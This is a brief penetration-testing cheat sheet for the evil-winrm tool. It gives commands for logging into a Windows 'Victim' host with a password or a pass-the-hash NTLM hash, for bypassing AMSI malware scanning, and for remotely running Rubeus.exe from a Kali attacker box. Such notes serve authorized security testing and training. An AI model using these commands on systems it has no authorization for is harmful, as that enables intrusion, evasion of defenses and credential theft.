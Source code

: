 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

evil-winrm

~~~bash
evil-winrm -i Victim_IP -u User -H Hash
~~~

~~~bash
evil-winrm -i 10.100.1.5 -u svc.account -p password -P port
~~~

Displaying Evil-WinRM Options:

~~~bash
menu
~~~

Bypassing AMSI in a Evil-WinRM Console:

~~~bash
Bypass-4MSI
~~~

Remotely running Binary from Kali Box on Victim PC:

~~~bash
Invoke-Binary /home/kali/Rubeus.exe
~~~

